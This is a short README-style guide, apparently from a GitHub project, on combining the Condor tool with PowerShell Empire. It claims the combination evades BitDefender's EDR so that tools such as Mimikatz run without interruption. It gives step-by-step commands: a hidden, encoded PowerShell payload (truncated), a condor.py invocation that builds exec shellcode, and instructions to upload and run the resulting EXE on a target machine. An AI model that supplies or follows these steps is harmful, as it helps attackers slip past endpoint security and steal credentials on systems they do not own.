

# Using Condor + Powershell Empire

The [condor](https://github.com/MrEmpy/Condor) tool is also able to bypass BitDefender's EDR, including running Powershell Empire's own tools without any interruption, such as Mimikatz.

1. Open your Powershell Empire and generate a Powershell payload, example:

```
powershell -Sta -Nop -Window Hidden -EncodedCommand cwB2ACAAbwAgACg...
```

2. Run the condor tool with the following command:

```
python3 condor.py -p windows/x64/exec
```

3. Paste the Powershell payload to generate the shellcode

4. Upload the EXE to the machine and run.


